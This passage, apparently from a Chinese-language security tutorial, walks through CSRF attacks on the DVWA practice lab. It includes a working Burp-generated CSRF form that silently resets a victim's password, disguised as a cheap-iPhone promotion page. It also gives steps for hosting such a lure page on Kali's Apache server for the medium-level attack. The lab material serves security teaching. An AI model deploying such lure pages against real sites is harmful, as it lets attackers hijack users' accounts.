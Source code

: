 ```shell
    <title>9.9领取苹果</title>
</head>
<!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.102.224.206:9093/vulnerabilities/csrf/">
      <input type="hidden" name="password&#95;new" value="123" />
      <input type="hidden" name="password&#95;conf" value="123" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="9.9抢购苹果" />
    </form>
  </body>
</html>
```



## 2.2 原因分析

```shell
代码层对修改密码这个功能，没有做任何校验和验证。
```



# 3.DVWA靶场中的medium级别的CSRF攻击



## 3.1 攻击过程

```shell
1.打开dvwa靶场

2.设置DVWA Security 的 security level 级别为 medium
(记得要用chrome浏览器)

3.选择CSRF
点击由下级的view source，看链接是否是
http://10.102.224.206:9093/vulnerabilities/view_source.php?id=csrf&security=medium
记得只有结尾是medium，才表示修改成功。

4.f12打开控制台：
在修改密码的输入框，输入密码：123456 并重复，然后提交。


5.获取修改密码的链接
http://10.102.224.206:9093/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change

6.在kali中启动apache
service apache2 start

7.进入kali的/var/www/html目录，
创建目录，目录名以访问目标的域名/ip为名称，这里是：
mkdir 10.102.224.206
cd 
编辑一个文件
vi csrf_medium.html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>9.9领取苹果</title>
</head>
```